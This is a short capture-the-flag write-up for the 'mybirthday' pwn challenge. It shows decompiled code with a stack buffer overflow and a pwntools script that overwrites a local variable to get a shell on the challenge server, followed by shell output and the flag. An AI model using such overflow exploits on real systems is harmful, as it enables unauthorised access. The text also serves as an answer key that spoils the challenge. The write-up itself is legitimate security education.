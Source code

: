 ## mybirthday

#### Solved by nhanlun

```
Can you guess my birthday? Or you can just gimme the flag :)

nc 61.28.237.24 30200

author: pakkunandy
```

Open `mybirthday` with Ghidra:

```cpp
undefined4 main(void)
{
  undefined local_2c [24];
  int local_14;
  undefined *local_10;

  local_10 = &stack0x00000004;
  local_14 = 0xfeefeffe;
  setup();
  puts("Tell me your birthday?");
  read(0,local_2c,30);
  if (local_14 == 0xcabbfeff) {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  return 0;
}
```

We use buffer overflow to overwrite `local_14` with 0xcabbfeff to pass the check:

```py
from pwn import *
conn = remote('61.28.237.24', 30200)
conn.sendlineafter("?", b'a' * 24 + p32(0xcabbfeff))
conn.interactive()
```

```
$ ls
bin
dev
flag.txt
hpbd
lib
lib32
lib64
$ cat flag.txt
HCMUS-CTF{Just_A_Warm_Up_Pwn}
```

**Flag:** `HCMUS-CTF{Just_A_Warm_Up_Pwn}`
